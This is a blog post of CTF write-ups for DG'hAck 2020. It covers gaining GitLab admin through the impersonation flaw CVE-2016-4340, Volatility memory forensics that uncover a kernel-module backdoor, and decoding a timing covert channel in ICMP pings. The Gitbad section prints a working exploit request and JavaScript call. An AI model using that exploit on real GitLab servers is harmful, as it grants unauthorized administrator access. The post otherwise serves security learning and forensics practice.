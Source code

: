 ```yaml
---
title: "DG'hAck: Gitbad, Bwing & Shadowmallet, Time for something different"
date: 2020-12-01T21:02:53+01:00
summary: "Another set of DG'hAck 2020 writeups"
categories:
  - dghack2020
---
```


# Gitbad

The Gitbad challenge is a gitlab instance, in which it is required to find some sensible data. Once registered on the service, we see on the "help" page that version running is `GitLab Community Edition 8.3.0 02076d7` with a big fat red "UPDATE ASAP" warning.

So, update asap, isn't it? Let's check CVEs. There is one interesting: CVE-2016-4340. It specifies The impersonate feature in Gitlab 8.3.0 [...] allows remote authenticated users to "log in" as any other user via unspecified vectors. Another little check, and we're getting some more details about it:

```
Login as regular user.
Get current authenticity token by observing any POST-request (ex.: change any info in user profile).

Craft request using this as template:
 
POST /admin/users/stop_impersonation?id=root

...

_method=delete&authenticity_token=lqyOBt5U%2F0%2BPM2i%2BGDx3zaVjGgAqHzoteQ15FnrQ3E8%3D
```

We need to find the authenticity_token. To get it, just go in your profile, open the developer console, click save, check the `POST` request, and the token should be in it:

```
_method: put
authenticity_token: cge+0nzmxDI6CAg6uzKEhcuzxcAMp9bJRvGrnz71K2owJqkeryiwGkqjVM/pNBoROphIDRPjH4rY6qseuqbPYw==
user[name]: testaroo
user[email]: test@test.com
```

Next step is to find the administrator's id. Go in the Dashboard, create a new Group. In the Group settings, in the Members tab, search for Administrator, and you'll get the Admin ID: `"name":"Administrator","username":"8e4684f1498aad818870376301b15426"`

So, we have our token, we have administrator's ID. Let's craft the `stop_impersonation` query in the JS console:

```
$.post('/admin/users/stop_impersonation?id=8e4684f1498aad818870376301b15426', '_method=delete&authenticity_token=cge+0nzmxDI6CAg6uzKEhcuzxcAMp9bJRvGrnz71K2owJqkeryiwGkqjVM/pNBoROphIDRPjH4rY6qseuqbPYw%3D%3D');
```

Reload the gitbad page, and... you'll be administrator. You still need to find the flag.

In the Admin area, you'll be able to list projects. Search for the archived ones, you'll get the `stephan/my-secret-project`. Check the `added my private key` commit and:

```
+flag: W3lL-d0N3-y0u-w1n-a_c4ke!
```

This challenge is flag'ed!


# Bwing & Shadowmallet

Those two challenges are quite similar. You are getting a memory dump of a running server, and you must find the flag in it. In the first one, `bwing`, that's just a file on the FS in memory. In the second one, it is a loadable kernel module backdoor (The challenge title is a reference to  the shadow hammer APT). As those are memory dumps, we'll make use of the [volatility framework](https://github.com/volatilityfoundation/volatility).

## For Bwing:

```sh
$ vol.py --plugin profiles --profile LinuxUbuntu_4_15_0-66-generic_profilex64 -f dump.raw linux_recover_filesystem --dump-dir out
Volatility Foundation Volatility Framework 2.6.1
... snip ...

$ cat out/mnt/confidential/flag.txt 
C0D3N4M34P011011
```


## For Shadowmallet

```sh
$ vol.py --plugin profiles --profile LinuxDebian_4_19_0-9-amd64_profilex64 -f shadowmallet linux_recover_filesystem --dump-dir out
... snip ...

$ strings out/var/log/kern.log |grep -i taint
Nov  9 17:30:13 contrib-buster kernel: [    1.605821] netfilter: loading out-of-tree module taints kernel.
Nov  9 17:30:13 contrib-buster kernel: [    1.605836] netfilter: module verification failed: signature and/or required key missing - tainting kernel

$ vol.py --plugin profiles --profile LinuxDebian_4_19_0-9-amd64_profilex64 -f shadowmallet linux_hidden_modules
Volatility Foundation Volatility Framework 2.6.1
Offset (V)         Name
------------------ ----
0xffffffffc04a6000 netfilter
0xffffffffc0578300 qni

$ vol.py --plugin profiles --profile LinuxDebian_4_19_0-9-amd64_profilex64 -f shadowmallet linux_moddump --dump-dir mods -b 0xffffffffc04a6000
Volatility Foundation Volatility Framework 2.6.1
Wrote 668514 bytes to netfilter.0xffffffffc04a6000.lkm

$ strings -n 10 mods/netfilter.0xffffffffc04a6000.lkm |head -5
4.19.0-9-amd64
[]A\A]A^A_
[]A\A]A^A_
YES SHA1 is CORRECT
B3tterR=H1deMebeTT3r=then!Right?

```

# Time for something different

In that one, you're getting a `data.pcap` file. You can read it quickly with `tcpdump`:

```sh
$ tcpdump -r data.pcap 
reading from file data.pcap, link-type EN10MB (Ethernet)
11:28:05.271523 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:05.974534 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:06.737381 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:07.390550 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:08.103364 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:09.336651 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:10.500205 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:10.982931 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:11.465408 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:12.617796 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:13.701056 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:14.814156 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:15.686772 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:16.799993 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:17.943153 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:19.106441 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:19.589015 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:20.071611 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:20.754520 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:21.266580 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:22.449633 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:22.942506 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:24.054744 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:25.228047 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:25.589787 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
11:28:26.843252 IP 192.168.0.14 > 192.168.0.254: ICMP echo request, id 0, seq 0, length 8
```

I've quickly checked icmp packets, but nothing strange/relevant in them. The main information is in timestamp (and this is the name of the challenge, right?). We quickly see deltas between pings are not regular. Let's take a better look at those deltas:

```sh
$ tcpdump -ttt -r data.pcap  | cut -d ':' -f3 | cut -d ' ' -f 1 | sed -e 's/\.//;s/^0//;s/....$//' | xargs
reading from file data.pcap, link-type EN10MB (Ethernet)
000 070 076 065 071 123 116 048 048 115 108 111 087 111 114 116 048 048 068 051 118 049 111 117 036 125
```

Most numbers are between 65 & 125. Ascii, if you ask me. Let's check that:

```sh
$ tcpdump -ttt -r data.pcap  | cut -d ':' -f3 | cut -d ' ' -f 1 | sed -e 's/\.//;s/^0//;s/....$//' | awk '{printf("%c",$1)}'
reading from file data.pcap, link-type EN10MB (Ethernet)
FLAG{t00sloWort00D3v1ou$}
```

# What did I learn ?

Volatility! Seems like a must to know tool for forensic. Alas the profile generation is kinda a pain in the ass.⏎                                             